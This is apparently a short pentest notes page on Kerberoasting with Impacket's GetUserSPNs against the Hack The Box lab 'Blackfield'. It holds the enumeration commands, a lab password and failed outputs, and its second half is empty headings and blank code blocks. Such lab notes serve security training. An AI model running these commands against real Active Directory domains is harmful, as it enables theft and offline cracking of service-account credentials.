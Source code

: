 # Kerberoasting with GetUserSPNs

### [Kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

> ... to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

[Powershell - List all SPNs in Active Directory](https://techexpert.tips/powershell/powershell-list-all-spns-active-directory/)

### TLDR
```sh
GetUserSPNs BLACKFIELD.local/
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight' -usersfile users.txt
```
### Without creds; HTB Blackfield
```sh
$ GetUserSPNs BLACKFIELD.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

### With creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
### 
```

```

### 
```

```
### Examples 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
